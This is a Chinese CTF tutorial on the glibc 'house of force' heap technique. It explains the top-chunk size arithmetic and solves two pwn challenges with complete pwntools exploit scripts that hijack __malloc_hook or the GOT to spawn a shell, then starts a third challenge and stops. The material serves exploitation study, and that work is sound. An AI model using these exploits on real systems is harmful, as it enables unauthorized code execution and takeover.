# house of force

## 介绍：
house of force是针对top chunk的一种手法，通过这种攻击手法，可以将top chunk更新到任意内存，再次申请堆块并写入数据，这就相当于任意地址任意写了。

## 原理：
在**2.23和2.27**的libc版本中，由于**没有对top chunk的size合法性进行检查**，因此如果我们能够**控制top chunk的size位**以及**malloc在申请堆块时的大小不受限制**，那么就可以完成该攻击。

先从malloc函数源码看起，如果malloc函数执行时发现没有任何的bins中的堆块能够满足需求，就会从top chunk中切下一块内存返回给malloc**(前提是top chunk能够有这么多内存供切割)**

```c
      victim = av->top;//获取当前top chunk的地址
      size = chunksize (victim);//计算top chunk的大小

      if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE))
      //MINSIZE就是堆块的最小size，32位程序为0x10，64位程序为0x20
      //如果top chunk的大小大于nb(程序执行malloc需要分配的内存大小)
      //加上MINSIZE的大小，就从top chunk中来切一块内存
      //之所以要加上MINSIZE是要保证切割后剩余的内存要是一个完整的堆块
        {
          remainder_size = size - nb;//remainder_size为切割后的剩余大小
          remainder = chunk_at_offset (victim, nb);//remainder为切割前top chunk+nb的值，也就是切割后top chunk的地址
          av->top = remainder;//更新top chunk
          //下面两个set_head给切割出去的堆块以及切割后的top chunk设置新的size
          set_head (victim, nb | PREV_INUSE |
                    (av != &main_arena ? NON_MAIN_ARENA : 0));
          set_head (remainder, remainder_size | PREV_INUSE);

          check_malloced_chunk (av, victim, nb);//调试用的，这里没用
          void *p = chunk2mem (victim);//返回用户指针
          alloc_perturb (p, bytes);
          return p;
        }
```

漏洞的利用在这一行代码`remainder = chunk_at_offset (victim, nb)` 如果我们可以控制nb的值，其实就可以控制remainder的值了(remainder就是切割后的top chunk的地址)，这个手法最终的效果就是精准控制切割后top chunk的地址。

## 探究一下如何控制top_chunk的地址

下面我们深入分析一下上面那个式子，来探究一下如何精准控制top chunk的地址。

首先`remainder = chunk_at_offset (victim, nb)`等价于下面这个式子

```
victim+nb=top_chunk
```

> victim为切割前的top chunk header地址
> nb为实际要申请的内存大小
> top_chunk为切割后的top chunk header的地址


然后将nb和top_chunk再具体展开一下(解释在代码的下面)

```
nb=request_size+0x10
top_chunk+0x10=target_addr
```

> nb 也等于我们malloc时的内存大小(requset_size)，再加上一个0x10的chunk头
> target_addr先假设是篡改top chunk后的地址
> house of force的核心就是篡改top chunk的地址，而我们的数据自然是只能输入到用户区，因此我们需要让top chunk+0x10后才能保证target_addr是位于了篡改后chunk的用户区


将上面两部分整合一下，即为

````
victim+request_size+0x10=target_addr-0x10
````

最终整理一下为:

```
request_size=target_addr-0x20-victim
```

叙述一下这个式子就是我们 **所申请的内存大小等于想要将top chunk篡改到的地址减去top chunk原本的地址再减去0x20** <u>（32位程序是-0x10，原理一样，只不过原本0x8的内存单元变成了0x4，所以最终的值减半）</u>


## house of force中对top chunk的size进行的检查

此时我们执行malloc(request_size)，就可以将top chunk更新到指定的地址了么?

> 不可以。别忘了存在一个检查`if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE))`通常来说我们这个request_size是个负数，强转为无符号整数进行判断时，request_size肯定为一个超大的数值，如果top chunk本身的size是正常的话，必然无法满足这个要求，因此house of force的一个条件就是可以控制top chunk的size位(通常都是通过溢出的方式)，将其size设置为-1，-1是转换成无符号整数时，将变成最大的数字0xffffffffffffffff，无论request_size为多大都可以通过if检查了。


将top chunk的size改为0xffffffffffffffff后，再执行malloc(request_size)，即可将top chunk更新到我们指定的地址，然后再次malloc时即可将该内存申请出来，并写入数据。上述内容就是house of force的攻击过程了。

## house of force手法总结

> 适用libc版本:2.23 2.27
>
> 使用前提:
>
> 1、申请堆块的大小不受限制
>
> 2、能够篡改top chunk的size位(主要是通过溢出的手段)
>
> 3、有top chunk原本的地址(这一条在特殊情况下，可以不具备)
>
> 4、有将top chunk更新后的目的地址(这一条在特殊情况下，可以不具备)
>
> PS：特殊情况为：我们只需要top chunk的地址更新到堆区，这样我们只需要知道top chunk和目的地址二者的偏移即可。(因为本身其实算request_size的时候要的就是二者偏移)(相关题目可以看hitcontraining_bamboobox)
>
> 攻击效果：可以将top chunk更新到任意已知地址，再将新的堆块从top chunk中申请出来写入数据。就可以达到任意地址任意写的目的。
>
> 防御措施：对top chunk的size位进行检查，判断是否合法


# 题目练习

## gyctf_2020_force

### 保护策略：


### 程序分析：



简单分析一下程序就会发现，这道题只有一个功能，就是add函数。

### 漏洞所在：




首先是malloc申请的内存大小无检查。



然后printf会打印出来申请的堆地址，最后就是不管malloc申请的内存多大，都可以输入0x50字节的内容，因此这里存在溢出(伪代码看的话这个*v0和\*i没关系，但是看汇编的话就会发现这俩是一个东西，估计是转伪代码的时候出问题了吧)

### 大致思路：

因为这道题没有free函数，就一个add函数，因此很多手法都是失效了。但是因为这几个漏洞点正好符合house of force攻击的条件。所以就用house of force嘎嘎打了。

1、先申请一块超大内存，利用mmap映射后与libc基地址存在的固定偏移，来拿到libc基地址。

2、将top chunk的size位修改为-1

3、精心构造出申请chunk的大小，保证从top chunk中切下来后，让top chunk位于malloc_hook(其实应该位于realloc_hook上的，因为要用realloc来调整栈帧，不过这就是后话了)

4、申请堆块，将malloc_hook从top chunk中申请出来，然后写入one_gadget。

5、发现所有one_gadget都打不通，只能用realloc调整栈帧再打one_gadget


> 然后我主要提三个点做一下相关解释吧:
>
> 1、为什么其他师傅都申请的是0x200000大小的堆块？
>
> 2、精心构造chunk大小，让top chunk位于malloc_hook上，这个chunk大小是怎么算的？
>
> 3、最后realloc+4是怎么调试出来的?


### 1、为什么其他师傅都申请的是0x200000大小的堆块？

如果大家这里尝试过mmap映射内存大小是几万字节或者十几万字节的话，应该会发现，本地能打通，但是远程打不通这个情况。

**导致了这个情况的原因是因为申请的堆块地址位于了ld中**(请参考下图 )如果环境一样的情况下，libc和ld直接的固定偏移是可以直接用的，就是说你本地的环境如果和远程的环境一样的话(这个环境相同指的并不是libc相同)，你拿ld与libc的固定偏移，打远程也是ok的。但是如果本地和远程环境不一样，结果就是你本地用ld和libc的那个偏移能打通，但是到远程还用这个偏移拿到的就不是libc正确的基地址了。



经过我不断调试，发现当申请0x1FBFE9大小以上的时候，mmap映射的内存才会到libc区域。(最大是多少，我没有试)

所以说这里未必非要是申请0x200000大小的堆块，只要大于等于0x1fbfe9就行。这样申请出来的堆块地址就和libc基地址存在固定偏移了(如下图)




### 2、申请的size为多少，才能让top chunk位于malloc_hook上？

```
request_size=target_addr-0x20-victim
```

直接套这个式子，解释在文章最开始。

都不用算出来，脚本直接这样写即可。



**这里多减了0x10的原因是因为，我将top chunk的地址篡改为了realloc_hook-8的位置。因为要连着realloc_hook和malloc_hook一起修改了,调整栈帧打one_gadget。**

### 3、realloc+4是怎么调试出来的?

这个咋调试的话，本文就不具体说明了。主要会的师傅不需要解释，不会的师傅需要仔细解释说明。所以需要弄懂realloc+4咋调试出来的师傅 可以看我这篇[文章](https://www.cnblogs.com/ZIKH26/articles/16421631.html#_label3)  仔细看完之后，保证嘎嘎会。如果对我写的哪里有疑问，可以一起交流一下。

### EXP:

[tools源码](https://www.cnblogs.com/ZIKH26/articles/16307343.html)

```py
from tools import *
p,e,libc= load("b")
#libc=ELF('libc-2.23.so')
p=remote('node4.buuoj.cn',27797)
context.arch='amd64'
context.log_level='debug'

def add(size,content):
    p.sendlineafter('2:puts\n',str(1))
    p.sendlineafter('size\n',str(size))
    p.recvuntil('bin addr ')
    heap_addr=int(p.recv(14),16)
    p.sendafter('content\n',content)
    return heap_addr

leak_libc_addr=add(0x210000,'a')
log_addr('leak_libc_addr')
libc_base_addr=leak_libc_addr+0x210ff0
log_addr('libc_base_addr')
one_gadget=[0x45226,0x4526a,0xf03a4,0xf1247]
one_gadget=libc_base_addr+one_gadget[1]
log_addr('one_gadget')
leak_heap_addr=add(0x10,p64(0)*3+p64(0xffffffffffffffff))
top_chunk_addr=leak_heap_addr+0x10
log_addr('top_chunk_addr')
realloc_addr=libc.symbols['realloc']+libc_base_addr
malloc_hook=libc.symbols['__malloc_hook']+libc_base_addr
log_addr('malloc_hook')

add((malloc_hook-0x20-top_chunk_addr-0x10),'aaaa')
add(0x20,b'bbbbbbbb'+p64(one_gadget)+p64(realloc_addr+4))
#debug(p,'pie',0xCCB,0xAF9)
p.recvuntil("2:puts\n")
p.sendline('1')

p.recvuntil("size\n")
p.sendline(str(20))
p.interactive()
```



## bcloud_bctf_2016

### 保护策略：



### 漏洞所在：

#### 堆地址的泄露



这里乍一看malloc(0x40),input 0x40的数据似乎不存在溢出，但因为strcpy函数的存在，所以这里的溢出是必然的。我们直接将0x40个数据输满，然后调一下(如下图)。



(上图是即将拷贝，之前strcpy函数前的栈空间)strcpy函数会将红色框部分的数据以及一个\x00全部拷贝到刚申请的0x40的堆块中，会发现此时拷贝的数据溢出了末尾的堆地址以及一个\x00。溢出原因是因为strcpy函数遇到\x00或者\x0a才会停止，而输入的数据将原本栈中的\x00给覆盖掉了，就导致多拷贝了一个地址，然后拷贝结束strcpy函数会加上一个\x00。

下图为拷贝后的堆布局，可以发现拷贝后造成了溢出。



接下来再执行printf函数的时候就将这个溢出的堆地址泄露出来了。



#### strcpy导致堆溢出

有了上面的溢出情况后，我们如法炮制，在这里依旧将两次的输入写满，看看会不会也出现溢出的情况

观察下图发现，确实又发生了溢出，而溢出的原因与上面堆地址泄露那个溢出原因一样，也是因为栈里没有出现\x00将strcpy函数截断，导致strcpy拷贝时发生了溢出。



这就说明我们可以现在可以控制top chunk的大小，知道top chunk的地址，malloc申请堆块大小时不受限制，因此选择house of force attack。

### 大致思路：

1、利用strcpy函数的溢出配合%s来泄露堆地址，再利用strcpy函数溢出来修改top chunk的size为0xffffffff。

2、利用house of force将top chunk位置改到bss段指针数组的位置

3、篡改bss段存储chunk地址的指针数组为free的got地址和puts的got地址

4、用edit将free的got表改为puts的plt表

5、free存储在bss段上的puts的got地址，由此来泄露libc地址

6、将free的got地址改为system地址，然后free掉存有/bin/sh字符串的地址即可获取shell

### 篡改free got表的一个坑

整体利用过程还是比较简单的，就不再赘述了。主要记录一下篡改free函数got表时的一个坑。

由于此时我们已经将top chunk的地址进行了修改，而此时top chunk的size为

上图的这个size不是固定不变的，跟top chunk的地址有关系，不过这个size肯定是一个负数(这里展示的是补码)

这个size记录的是 id为0的chunk大小。

然后在edit函数里面有一个检查(如下)



i初始值为0，但是a2(就是size)为负数，也就是说这里我们的数据是写不进去的。

所以我们需要将函数的got地址布置到id为0之后的chunk地址才行，否则无法对其进行编辑。

### EXP：

[tools源码](https://www.cnblogs.com/ZIKH26/articles/16307343.html)

```py
from tools import *
context.log_level='debug'
p,e,libc=load('a')
libc=ELF('libc32.so')
context.os='linux'
p=remote('node4.buuoj.cn',26687)
c_a=0x08048D11
c_d=0x08048D26
c_e=0x08048D1F
def add(size,content):
    p.sendlineafter('option--->>\n',str(1))
    p.sendlineafter('Input the length of the note content:\n',str(size))
    p.sendlineafter('Input the content:\n',content)
    p.recvuntil('Create success')

def edit(id,content):
    p.sendlineafter('option--->>\n',str(3))
    p.sendlineafter('Input the id:\n',str(id))
    p.sendlineafter('Input the new content:\n',content)
    p.recvuntil('Edit success.\n')
    
def delete(id):
    p.sendlineafter('option--->>\n',str(4))
    p.sendlineafter('Input the id:\n',str(id))
    #p.recvuntil('Delete success.\n')
    
puts_plt_addr=e.plt['puts']
puts_got_addr=e.got['puts']
free_got_addr=e.got['free']

p.sendafter('Input your name:\n','a'*0x40)
p.recvuntil('a'*0x40)

leak_heap_addr=u32(p.recv(4))
log_addr('leak_heap_addr')
top_chunk_addr=leak_heap_addr+0xd0
log_addr('top_chunk_addr')
p.sendafter('Org:\n','b'*0x40)

p.sendlineafter('Host:\n',p64(0xffffffff))
#debug(p,c_a,c_d,c_e,0x08048BE1)
add((0x0804B120-0x10-top_chunk_addr),'zikh')
add(0x20,p32(0)+p32(free_got_addr)+p32(puts_got_addr)+p32(0x0804B120+0x10)+b'/bin/sh\x00')
edit(1,p32(puts_plt_addr))
delete(2)
puts_addr=u32(p.recv(4))
libc_base=puts_addr-libc.symbols['puts']
log_addr('puts_addr')
log_addr('libc_base')
sys_addr=libc_base+libc.symbols['system']
edit(1,p32(sys_addr))
delete(3)
p.interactive()
```

## hitcontraining_bamboobox

**这里我只记录用house of force的攻击手法，如果想打远程的话，要用unlink来打。**

### 保护策略：



### 漏洞所在：



存在一个后门函数




然后存在v3里存了两个函数指针，然后如果选择5的话，会执行其中的函数指针。


